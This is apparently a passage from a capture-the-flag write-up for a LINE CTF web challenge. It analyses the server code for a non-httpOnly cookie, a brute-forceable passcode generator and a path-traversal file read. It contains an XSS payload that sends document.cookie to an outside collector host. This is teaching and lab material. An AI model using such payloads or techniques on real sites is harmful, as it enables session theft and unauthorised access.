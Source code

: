 We notice that the note ID is set as follows:
```js
res.cookie('noteId', noteId, {
    domain: DOMAIN,
    httpOnly: false
    });
```
Where DOMAIN is line.ctf, so because we are on the same site on the bot endpoint, we can just leak the note ID from the cookie.
```
http://bot.line.ctf/?error=<img src=x onerror="location=`//06sjnkhn.requestrepo.com/?${document.cookie}`;" />
```

Next comes the tricky part, the bot is using this function:
```js
function genPasscode() {
  let chars = "LINECTF";
  let emojis = [">.<", ">,<"];
  let passCode = Array.from(crypto.randomFillSync(new Uint32Array(4))).map((x) => chars[x % chars.length]).join('');
  passCode += emojis[crypto.randomInt(emojis.length)];
  return passCode;
}
```

To generate passcodes for the flag note. If we take a closer look, there's only 4802 passcodes in total, which is totally bruteforceable. There's also a LFI in the public endpoint:
```js
app.use('/public', function (req, res, next) { 
  res.sendFile(__dirname + '/public' + decodeURIComponent(req.path), { root: '/' });
});
```
Which we can use to include files. And this is the `/read` endpoint:
```js
app.get('/read', (req, res) => {
  if (!req.headers['x-ctf-from']) return res.redirect('/');
  let { passCode, noteId, next } = req.query;
  if (typeof passCode === 'string' && typeof noteId === 'string' && REGEX.test(noteId)) {
    if (!next) next = '/content';
    try {
      let noteDir = 'notes/' + noteId;
      let notePath = noteDir + '/' + md5(passCode).substring(10);
      if (fs.existsSync(notePath)) {
        let content = fs.readFileSync(notePath);
        fs.rmSync(noteDir + '/', { recursive: true, force: true });
        return res.redirect(next + `?content=` + encodeURIComponent(content));
      } else {
        if (fs.existsSync(noteDir)) fs.rmSync(noteDir + '/', { recursive: true, force: true });
        return res.send('<script>alert("Read note failed")</script>');
      }
    } catch {
      return res.send('<script>alert("Read note failed")</script>');
    }
  }
  return res.redirect('/');
});
```

